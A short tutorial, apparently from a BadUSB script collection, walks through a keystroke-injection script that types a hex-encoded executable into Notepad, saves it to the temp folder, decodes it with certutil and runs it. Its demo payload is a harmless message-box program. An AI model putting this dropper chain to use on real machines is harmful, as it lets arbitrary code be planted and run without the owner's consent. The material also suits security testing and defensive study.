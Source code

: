 ## Load and Run an exe file via BadUSB

This idea is old, very very old, so old that I do not remember where I read about it. But which is this idea? Let's start with the problem: **How to transfer a binary file to a PC using only a keyboard?**

A binary file is made of different characters, but lot's of them are not available on a keyboard, so we must find a method to encode all characters to be "writable" on a keyboard. A way to accomplish this, which I used here, can be the HEX-encoding. If we can encode a binary file in HEX, copy it to the target machine, and then, tell the target machine to decode and run the exe we are done.

To accomplish this I used `certutil` to encode and decode the binary file, but any other tool can be used if available on the target machine. Keep in mind that on the target machine you **must have** a tool to decode the stream!

For my testing I used the `tiny.exe` *(available at this link: [Minimal (268 bytes) 64-bit (PE) that displays a message box on Windows 10](https://github.com/ayaka14732/TinyPE-on-Win10))* to keep the script as little as possible, it's your work to encode your exe and change the BadUSB script.

#### What this BadUSB script does?

1. Start `notepad.exe`

```
GUI r
DELAY 1000
STRING notepad.exe
ENTER
DELAY 2000
```

2. Dump into notepad the HEX-encoded `tiny.exe`

```
STRING 4d5a00000000000000000000000000000000000000000000000000000000
ENTER
STRING 000000000000000000000000000000000000000000000000000000000000
ENTER
[...]
DELAY 2000
```

3. Close and save the encoded `tiny.exe` file to `tiny.hex`

```
ALT F
DELAY 1000
STRING S
DELAY 1000
ALTSTRING "%TEMP%\tiny.hex"
DELAY 1000
ENTER
DELAY 1000
ALT F4
DELAY 2000
```

4. Use `certutil` to decode the `tiny.hex` to `tiny.exe`

```
GUI r
DELAY 500
ALTSTRING certutil -f -decodeHex "%TEMP%\tiny.hex" "%TEMP%\tiny.exe"
DELAY 1000
ENTER
DELAY 1000
```

5. Run the decoded `tiny.exe`

```
GUI r
DELAY 250
ALTSTRING "%TEMP%\tiny.exe"
ENTER
```

#### Some notes:

- to encode an binary file: `certutil -f -encodeHex [file.bin] [file.hex]`

- to decode the hex file: `certutil -f -decodeHex [file.hex] [file.bin]`

- when you encode a binary to hex, the result may be different from what you see into the example script, this is normal. To make the encoded data smaller I modified the hexdump by hand with a text editor.

- this script does not remove the temporary created files! if runned more than once remember to remove the temp file manually

- I was able to run this script on Windows 7 and Windows 10 but make your testing before running it

- I used some delays in the script, without them I got errors, so make your testing before removing ora adding more delay. *In particular after the dump I had to wait a little before continue, I think that the usb buffer needs some delay to send the full dump as it's a lot of data.*


